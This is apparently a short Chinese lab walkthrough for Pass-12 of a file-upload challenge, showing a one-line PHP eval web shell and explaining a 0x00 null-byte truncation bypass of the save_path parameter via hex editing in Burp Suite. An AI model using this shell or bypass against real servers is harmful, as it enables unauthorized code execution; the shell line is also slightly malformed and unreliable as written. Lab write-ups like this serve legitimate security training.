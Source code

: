 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第十二关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### Pass-11不一样的地方是Pass-12利用$_POST获取save_path，此参数也是可注入的。只是修改的地方和Pass-11不一样，Pass-12在Hex数据流中修改(Hex将报文中的字符全部转换成16进制)

##### %00和0x00截断

##### 原理都是一样的，都是利用16进制的00截断原理 。

##### Pass-11中对url进行解码。将%00解码成0x00，而Pass-12中没有url解码这一步，直接在hex的值中修改。形成0x00截断。

## 4.我们可以使用Burpsutie抓包，使用%00绕过

![](/img/4.png)

![](/img/5.png)

